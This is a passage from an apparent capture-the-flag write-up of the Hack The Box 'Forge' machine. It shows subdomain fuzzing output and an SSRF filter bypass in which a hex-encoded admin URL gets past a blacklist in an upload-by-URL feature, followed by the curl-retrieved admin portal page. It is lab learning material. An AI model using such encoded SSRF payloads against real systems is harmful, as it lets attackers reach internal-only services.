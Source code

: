 ```bash
=====================================================================

000000036:   200        1 L      4 W        27 Ch       "admin"
```

Accessing the site directly doesn’t isn’t possible, it filters out only for localhost

 

![Untitled](/images/forge-htb/Untitled%201.png)

Since the upload feature, accepts a url, I decided to try fetch the admin portal through it. This also was not possible, there seems to be a back end filtering that has blacklisted names.

![Untitled](/images/forge-htb/Untitled%202.png)

I had to look of a way to bypass this. After looking through, I found one that worked. I encoded the url in hex and got a successful upload

![Untitled](/images/forge-htb/Untitled%203.png)

```bash
http://%61%64%6D%69%6E%2E%66%6F%72%67%65%2E%68%74%62/
```

![Untitled](/images/forge-htb/Untitled%204.png)

We are able to access the admin portal and able to receive more functionality. We see that there is a juicy endpoint called announcements.

```bash
┌──(kali㉿kali)-[~/htb/forge]
└─$ curl http://forge.htb/uploads/M2dvG84uCCDDYJjBrULa                              
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>
```
